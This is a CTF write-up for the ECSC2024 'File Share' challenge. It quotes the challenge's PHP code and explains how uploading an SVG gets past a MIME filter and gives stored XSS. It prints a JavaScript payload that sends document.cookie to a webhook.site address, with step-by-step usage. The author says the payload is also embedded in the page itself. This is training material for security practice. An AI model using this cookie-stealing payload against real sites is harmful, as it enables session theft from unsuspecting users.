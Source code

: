 ```yaml
---
title: fileshare-writeup
date: 2024-03-22T20:31:38+00:00
draft: true
type: post
showTableOfContents: true
description: 
tags:
  - ctf
  - writeup
  - ecsc24
  - web
---
```

This is a writeup for the ECSC2024 challenge File Share.
Looking through the source code for the challenge, there are two things of note.

The first is in support.php
```php
 if (preg_match('/^[a-f0-9]{30}$/', $fileid) === 1) {

        $url = 'http://' . getenv('HEADLESS_HOST');
        $chall_url = 'http://' . getenv('WEB_DOM');
        $act1 = array('type' => 'request', 'url' => $chall_url);
        $act2 = array('type' => 'set-cookie', 'name' => 'flag', 'value' => getenv('FLAG'));
        $act3 = array('type' => 'request', 'url' => $chall_url . '/download.php?id=' . $fileid);
        
        $data = array('actions' => [$act1, $act2, $act3], 'browser' => 'chrome');
        $data = json_encode($data);

        $options = array(
            'http' => array(
                'header'  => "Content-type: application/json\r\n" . "X-Auth: " . getenv('HEADLESS_AUTH') . "\r\n",
                'method'  => 'POST',
                'content' => $data
            )
        );

        $context  = stream_context_create($options);
        $result = file_get_contents($url, false, $context);
```
In this snippet. If you give a valid file id. It will send a POST request to that page with the flag included as a cookie.

The second is in upload.php.

```php
$type = $_FILES["file"]["type"];
    // I don't like the letter 'h'
    if ($type == "" || preg_match("/h/i", $type) == 1){
        $type = "text/plain";
    }
```

This snippet of code limits uploading of certain file types by their mime-type. This will transform PHP and HTML files into plain text. This is regardless of extension, so there's no simple bypass for that.

However, this doesn't block SVG files. So we are able to get stored XSS by uploading an SVG file with some JS. The javascript embeded in the SVG is as follows:
```js
<script type="text/javascript">
        <![CDATA[
        image = new Image();
        image.src='https://webhook.site/XXXX?'+document.cookie;
        ]]>
    </script>
```

Best part is. I've embeded this code into the writeup itself!

---

Firstly, you want to setup a webhook, or forwarder. I used [webhook.site](https://webhook.site) for this. This is where we are going to send the request to get the flag.

Next open up this SVG in a text editor, and replace the line `https://webhook.site/XXXX` with your webhook.

Next, go to the Uploads page, and upload this SVG. Once uploaded you will be given a link to its location. You want to copy this link and get the id portion `id?=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX`

![[Writeups/1 - Linked to Blog/Static/images/ECSC-FIleShare-1.png]]

Next go to the Support page. Enter in a valid email, the ID for the file and a message. Then click send.
![[Writeups/1 - Linked to Blog/Static/images/ECSC-fileshare-2.png]]

After a few seconds, you should get the flag in your webhook site.

![[Writeups/1 - Linked to Blog/Static/images/ECSC-fileshare-3.png]]